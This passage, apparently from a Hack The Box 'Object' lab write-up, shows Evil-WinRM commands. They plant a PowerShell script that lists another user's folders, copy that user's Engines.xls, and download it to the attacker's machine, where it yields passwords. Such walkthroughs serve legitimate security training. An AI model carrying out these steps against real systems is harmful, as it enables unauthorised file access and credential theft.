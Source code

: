 Cool. We can note that Desktop and Documents have different time stamps.

Lets update the script to access maria's documents:

```
*Evil-WinRM* PS C:\ProgramData> echo "ls \users\maria\documents > \programdata\out; ls \users\maria\desktop\ > \programdata\out2" > cmd.ps1

*Evil-WinRM* PS C:\ProgramData> ls out*


    Directory: C:\ProgramData


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/31/2024   5:19 AM              0 out
-a----        7/31/2024   5:19 AM            830 out2


*Evil-WinRM* PS C:\ProgramData> type out2


    Directory: C:\users\maria\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/26/2021   8:13 AM           6144 Engines.xls
```

Looks like an Excel doc called Engines.xls in there. Lets grab it and use the `download` feature to bring it back to our box:

```
*Evil-WinRM* PS C:\ProgramData> echo "copy \users\maria\desktop\Engines.xls \programdata\" > cmd.ps1 

*Evil-WinRM* PS C:\ProgramData> download C:\ProgramData\Engines.xls /home/ryan/HTB/Object/Engines.xls
Info: Downloading C:\ProgramData\Engines.xls to /home/ryan/HTB/Object/Engines.xls

                                                             
Info: Download successful!
```

Opening the file with libre office we find 3 passwords:

![htb_object_engines.png](../assets/object_assets/htb_object_engines.png)
